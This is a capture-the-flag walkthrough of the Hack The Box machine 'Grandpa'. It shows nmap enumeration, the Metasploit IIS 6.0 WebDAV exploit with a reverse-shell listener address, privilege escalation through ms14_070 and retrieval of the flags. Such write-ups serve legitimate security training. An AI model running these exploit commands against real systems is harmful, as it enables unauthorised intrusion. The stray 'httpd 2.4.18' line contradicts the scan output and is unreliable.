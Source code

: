 ![logo](/logo.png)

# [Grandpa- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the eleventh machine on HTB,Granpa created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/grandpa 10.10.10.14
```

###### Output 

![](/Windows/Windows-Easy/Grandpa/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/grandpa 10.10.10.14                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:42 EAT
Nmap scan report for 10.10.10.14
Host is up (0.35s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 12 Aug 2024 16:43:23 GMT
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.17 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.14](http://10.10.10.14)  we find a page that say it under construction 

![](/Windows/Windows-Easy/Grandpa/Screenshots/under.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow

![](/Windows/Windows-Easy/Grandpa/Screenshots/py.png)

After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell.png)

now that the meterpreter is refusing to get some infomation we just load the shell and do a `systeminfo` so that we can be able to see if their are hot fixes 

![](/Windows/Windows-Easy/Grandpa/Screenshots/systeminfo.png)

we find that their is only one hotfix that is done

![](/Windows/Windows-Easy/Grandpa/Screenshots/hotfix.png)

we noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](/Windows/Windows-Easy/Grandpa/Screenshots/sysinfo.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/suggester.png)

looking at the results we find that their are a couple of exploits 

![](/Windows/Windows-Easy/Grandpa/Screenshots/exploits.png)

In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell2.png)

and just that way we get shell

![](/Windows/Windows-Easy/Grandpa/Screenshots/shellroot.png)

we can get the user flag from `C:\Documents and Settings\Harry\Desktop`

![](/Windows/Windows-Easy/Grandpa/Screenshots/userflag.png)

we can get the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](Windows/Windows-Easy/Grandpa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



